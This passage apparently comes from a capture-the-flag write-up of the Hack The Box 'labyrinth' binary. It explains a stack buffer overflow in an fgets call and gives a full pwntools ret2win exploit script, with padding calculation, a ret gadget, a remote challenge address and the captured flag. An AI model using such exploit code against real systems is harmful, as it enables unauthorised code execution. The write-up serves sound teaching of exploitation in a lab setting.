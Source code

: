 ```c
    fgets(v4, 68, stdin);
  }
  fprintf(_bss_start, "\n%s[-] YOU FAILED TO ESCAPE!\n\n", "\x1B[1;31m");
  return 0;
}
```
There is a buffer overflow associate with this line of code `fgets(v4, 68, stdin);` because `v4` was declared `char v4[8];` but we are allowed to input up to 68 bytes and we need to input '69' at first. Our attack plan will be overwrite the return address with the address of function `escape_plan`. IDA also provides us stack offset of variable `v4` which is `[rbp-30h]`, so we can calculate the correct padding which is equal `0x30 + 8 = 0x38 = 56`. The stack frame layout will be
```
|_______________|
|               |
|   "A"*56      |
|               |
|_______________|
|               |
|ret instruction| # padding ret because of movaps instruction
|_______________|
|               | 
|  escape_plan  |
|_______________|
|      .        |
```
We can use `ROPgadget` to find the address of instruction `ret`
```zsh
$ ROPgadget --binary labyrinth | grep "ret"
0x0000000000401016 : ret
```
We yield the final exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./labyrinth")

context.binary = exe

p = remote("167.71.143.44",31869)
# p = process('./labyrinth')

p.recvuntil(b'>> ')
p.sendline(b'69')

p.recvuntil(b'>> ')
ret = 0x0000000000401016
payload = b'A'*56 + p64(ret)+ p64(exe.sym['escape_plan'])
p.sendline(payload)
p.interactive()
```
Flag is: **HTB{3sc4p3_fr0m_4b0v3}** 
